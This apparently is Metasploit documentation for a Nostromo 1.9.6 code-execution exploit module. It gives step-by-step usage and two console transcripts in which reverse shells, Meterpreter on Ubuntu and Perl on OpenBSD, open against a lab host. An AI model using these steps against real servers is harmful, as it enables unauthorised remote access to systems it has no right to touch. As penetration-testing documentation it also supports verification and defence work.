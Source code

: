 ## Vulnerable Application

Verified against:

* Nostromo 1.9.6 on Linux

Nostromo sources can be downloaded from http://www.nazgul.ch/dev_nostromo.html

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/nostromo_code_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Scenarios

Example utilizing nostromo 1.9.6 on Ubuntu Linux.

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(multi/http/nostromo_code_exec) > set RPORT 8000
RPORT => 8000
msf5 exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8000 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
msf5 exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x86/meterpreter/reverse_tcp command stager
[*] Sending stage (985320 bytes) to 192.168.1.9
[*] Meterpreter session 2 opened (192.168.1.10:4444 -> 192.168.1.9:52544) at 2019-10-29 16:08:18 +0100
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : nostromo.local
OS           : Ubuntu 18.04 (Linux 4.15.0-62-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 192.168.1.9 - Meterpreter session 2 closed.  Reason: User exit
```

nostromo 1.9.6 on OpenBSD.

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(multi/http/nostromo_code_exec) > set RPORT 8001
RPORT => 8001
msf5 exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8001 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set target 0
target => 0
msf5 exploit(multi/http/nostromo_code_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.9:52312) at 2019-10-29 15:48:28 +0100
id
uid=536(_nostromo) gid=536(_nostromo) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
uname -avr
OpenBSD nostromo.local 6.4 GENERIC#349 amd64
^C
Abort session 1? [y/N]  y
[*] 192.168.1.9 - Command shell session 1 closed.  Reason: User exit
```
